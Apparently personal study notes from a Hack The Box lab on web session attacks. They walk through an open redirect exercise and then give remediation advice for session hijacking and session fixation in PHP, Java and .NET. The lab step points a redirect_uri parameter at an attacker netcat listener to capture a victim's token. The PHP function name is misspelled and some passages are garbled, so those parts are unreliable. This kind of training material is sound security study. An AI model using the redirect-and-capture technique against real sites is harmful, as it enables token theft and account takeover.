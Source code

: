 
- Open Redirect Example:
Procced to the section to spawn the machine:
Navigate to [oredirect.htb.net], if u enter a mail account u'll notice that the app is eventually making POST request to the page specified in the redirect_url parameter.
A token is also icluded in the POST request, this token could be a session or anti-CSRF token and useful to an attacker.

Let us test if we can control the site where the redirect_uri parameter point. Let open netcat. Copy the entire URL where u landed after navigating to [onedirect.htb.net]
[http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>].
The edit this URL as follow:
[http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>]
When the victim enters their mail, we notice a connection begin made to our listener. The app vulnerable to Open Redirect.
WE get PWN.

___

## Remediation Advice:

It's essential to share remediation advice, know the remediation a vulnerability does help not only the client but also ourselves since we may quicly the existence of a vulnerability
by noticing the lack of a realted security measures.

- Remeding Sesision Hijacking:

Is pretty challeging to counter session Hijacking since valid session identifier grants access to an app by design. User session monitoring/anomaly detection solution can detected session
Hijacking. It's a safer bet to counter session Hijacking.

- Remediating Session Fixation:

Session Fixation can be remediated by generating a new session identifier upon an authentication operations. Theres no need a custom implementation to remediate session fixation.

- PHP
`sessin_regeneration_id(bool $delete_old_session = false); bool`
Deep detailed of [sessin_regeneration_id](https://www.php.net/manual/en/function.session-regenerate-id.phphttps://www.php.net/manual/en/function.session-regenerate-id.php)

- JAVA
```java
session.invalidate();
session = request.getSession(true);
```
Deep detail [Using Sessions](https://docs.oracle.com/cd/E19146-01/819-2634/6n4tl5kmm/index.html)

- .NET
For session invalidatuin purpouse, the .NET framework utilize Session.Abandon(), but there is caveat. Session.Abandon is not sufficient for
this task. States that when de cookie Abandon a session, the session ID cookie is not removed from the browser of the user. AS sonn as the session
has been Abandoned, any new request to the same app will use the same session ID but will have a new session state instances.
